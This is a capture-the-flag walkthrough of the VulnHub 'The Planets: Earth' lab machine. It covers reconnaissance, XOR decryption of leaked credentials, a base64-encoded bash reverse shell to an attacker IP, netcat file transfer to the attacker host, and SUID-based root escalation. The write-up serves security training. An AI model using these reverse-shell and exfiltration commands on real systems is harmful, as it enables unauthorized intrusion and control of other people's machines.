

# [VH] The Planets: Earth
> reference: [1](https://resources.infosecinstitute.com/topics/capture-the-flag/the-planets-earth-ctf-walkthrough-part-1/) [2](https://testingonprod.com/2021/12/19/vulnhub-the-planets-earth-writeup/) [3](https://nepcodex.com/2021/12/earth-the-planets-vulnhub-writeup/)

<br>

## recon phase

- first we need to find the _IP_ of the machine
- using `sudo netdiscover` we can see multiple _IP_
	- 
- to find the target _IP_, scanned multiple _IPs_ with simple nmap command (`nmap <IP>`) to get _Machine IP_
	- 
- as we found the _target machine_, let's do a full [_nmap scan_](./logs/nmap.log)
	- 
- there are 3 open ports: p22, p80 & p443


- when visited the site got _bad request 400_
	- 
- if we carefully look at the _nmap scan_, the scan results for 443 reveals _two hostnames_
	- `earth.local` & `terratest.earth.local`
	- 
- lets add them to _hosts_ file using `sudo nano /etc/hosts`
	- line to add: `192.168.1.5 earth.local terratest.earth.local`
	- 


- now if we visit the site (`earth.local`) we can see some _Earth Secure Messaging Service_
	- 
- if we scroll down there are some hashes of _previous messages_
	- 
	- hashes (_rest not req._):
		- `2402111b1a0705070a41000a431a000a0e0a0f04104601164d050f070c0f15540d1018000000000c0c06410f0901420e105c0d074d04181a01041c170d4f4c2c0c13000d430e0e1c0a0006410b420d074d55404645031b18040a03074d181104111b410f000a4c41335d1c1d040f4e070d04521201111f1d4d031d090f010e00471c07001647481a0b412b1217151a531b4304001e151b171a4441020e030741054418100c130b1745081c541c0b0949020211040d1b410f090142030153091b4d150153040714110b174c2c0c13000d441b410f13080d12145c0d0708410f1d014101011a050d0a084d540906090507090242150b141c1d08411e010a0d1b120d110d1d040e1a450c0e410f090407130b5601164d00001749411e151c061e454d0011170c0a080d470a1006055a010600124053360e1f1148040906010e130c00090d4e02130b05015a0b104d0800170c0213000d104c1d050000450f01070b47080318445c090308410f010c12171a48021f49080006091a48001d47514c50445601190108011d451817151a104c080a0e5a`
	- there is a _possibility_ that the _previous msg_ contains some _sensitive info_
- lets do some test messages (__MSG:KEY__ -> __Hash generated__)
	1. earth:earth -> 0000000000
		- 
	2. earth:123   -> 545341455a
		- 


- after doing a [_gobuster scan_](./logs/gobuster.log) on `earth.local`, we found a sub-directory `/admin`
	- 
- `earth.local/admin` says to login inorder to use the _Admin Command Tool_
	- 
- the _login button_ redirects us to a simple _login page_ (`http://earth.local/admin/login`)
	- 
- after trying `admin:admin`, login failed
	- 
- the page sends an _POST_ request with following data & cookie:
```
csrfmiddlewaretoken=YFYPpGsWXmHRz3x4dpr6Xd6yHisme9almVu3qE8kRK3BEZSv2qNwYWXXEA7d5IF3&username=admin&password=admin
```
```
csrftoken="USovV1udqu6nU8nMLkYJCFb467P4UNTdi8UJWZaBkSs7Z4IdAlk9Do2t3puVLmoV"
```


- lets check `terratest.earth.local` subdomain
	- the `http` site seems same, but `https` (as ssl is used) has [`robots.txt`](./files/robots.txt)
	- 
- from _robots.txt_ found [`testingnotes.txt`](./files/testingnotes.txt)
	- assuming to be a `.txt` file as the filename is `...notes`
	- 
- from _testingnotes_ we have:
	- _admin username: `terra`
	- _encryption algo used_: `XOR`
	- _one more file_: [`testdata.txt`](./files/testdata.txt)

<br>

## hacking phase

- for _XOR_ we need atleast _2nd values_ to get _3rd value_
	- lets say:
		- _m_=_message to encrypt_
		- _k_=_key_
		- _o_=_output_
	- therefore `o=m^k`, where `^` is _xor_ operator
	- here we only have _`o`_, so we need _`k`_ to decrypt the _`m`_
- lets use [_CyberChef_](https://gchq.github.io/CyberChef/) to decode
	- using _From Hex_ & _XOR_ recipe (`m=o^k`)
		- with [`testdata.txt`](./files/testdata.txt) as _key_ (_`k`_)
		- and the _3rd / last_ hash as _input msg_ (_`o`_)
	- 
	- output repeated the phase `earthclimatechangebad4humans`


- from the data we have our _login creds_
	- _username_: `terra`
	- _password_: `earthclimatechangebad4humans`
- __successfully logged into _Admin Command Tool_!__
	- 

- here we are allowed to _run cmds_ as user _apache_
	- 
- let's get a _reverse shell_
	- if we enter anything that matches (probably _regex_) an _IP Address_ if display an err msg
		- 
	- encode _reverse shell_ with _base64_ (`echo "bash -i >& /dev/tcp/192.168.1.8/4444 0>&1" | base64`)
		- 
	- execute `echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuOC80NDQ0IDA+JjEK" | base64 -d | bash` on _admin cmd tool_ 
		- start a listner on _attacker machine_ (`nc -lnvp 4444`), before executing above cmd
	- __successfully got a _Reverse Shell_!!__
		- 

- getting proper shell env ([reference](https://addons.mozilla.org/en-US/firefox/addon/hacktools/))
	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- `export TERM=xterm`
	- `Ctrl + Z`
	- `stty raw -echo; fg`

- _enumerating system_
	- found _user_:`earth`
		- 
	- found `/var/earth_web/user_flag.txt` > `[user_flag_3353b67d6437f07ba7d34afd7d2fc27d]`
		- 
	- checking for SUID binaries: `find / -perm -4000 2>/dev/null` (or `find / -perm -u=s 2>/dev/null`)
		- 
	- there is a intresting binary `/usr/bin/reset_root`
		- 
		- 
		- 

- let's examine the binary (__privesc__)
	- if binary is executed successfully, it changes the _root password_ to `Earth` (got it from `strings` cmd)
	- download it on our system
		- _Attacker Machine_: `nc -nvlp <CustomPort> > reset_root`
			- 
		- _Target Machine_: `nc -w 3 <AttackerIP> <CustomPort> < reset_root`
			- 
	- using `ltrace` to analyze the binary (`ltrace ./reset_root`)
		- 
	- looks like the "_TRIGGERS_" mentioned in err are _3 conditions_ (check above img) i.e. req. _3 files_ present on the system, the files are:
		- `/dev/shm/kHgTFI5G`
		- `/dev/shm/Zw7bV9U5`
		- `/tmp/kcM0Wewe`
	- lets `touch` them on _target machine_
		- 
	- now re-run the binary on _target machine_ (`./usr/bin/reset_root`)
		- 

- now we have root creds
	- lets `su root`
		- 
	- found `/root/root_flag.txt` > `[root_flag_b0da9554d29db2117b02aa8b66ec492e]`
		- 

<br>

> coming soon...
## maintaining access
## clearing tracks